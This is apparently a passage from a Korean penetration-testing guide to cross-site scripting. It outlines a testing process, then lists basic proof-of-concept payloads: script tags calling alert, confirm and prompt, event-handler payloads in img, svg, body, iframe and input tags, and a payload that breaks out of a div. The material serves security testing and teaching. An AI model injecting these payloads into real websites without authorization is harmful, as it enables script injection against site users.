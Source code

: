 ### XSS 테스팅 프로세스

1. **입력 지점 식별**
   - 폼 필드 (텍스트박스, 텍스트에어리어 등)
   - URL 파라미터 (GET, POST)
   - HTTP 헤더 (User-Agent, Referer 등)
   - 쿠키값
   - 파일 업로드 (파일명, 메타데이터)

2. **출력 위치 확인**
   - HTML 태그 내부/외부
   - 태그 속성값
   - JavaScript 코드 내부
   - CSS 스타일 내부
   - HTTP 응답 헤더

3. **필터링 패턴 분석**
   - 특수문자 차단 여부
   - 키워드 블랙리스트
   - 태그/이벤트 핸들러 제한
   - 인코딩 적용 여부

4. **우회 기법 적용**
5. **페이로드 실행 확인**
6. **영향도 평가**

---

## 2. 기본 페이로드

### 2.1. 표준 테스트 페이로드

#### 기본 스크립트 태그
```html
<script>alert('XSS')</script>
<script>confirm('XSS')</script>
<script>prompt('XSS')</script>
```

#### 이벤트 핸들러 기반
```html
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<body onload=alert('XSS')>
<iframe onload=alert('XSS')></iframe>
<input onfocus=alert('XSS') autofocus>
```

### 2.2. 컨텍스트별 기본 페이로드

#### 2.2.1. HTML 태그 내부 삽입
**상황:** `<div>여기에 입력값</div>`
```html
</div><script>alert('XSS')</script><div>
```

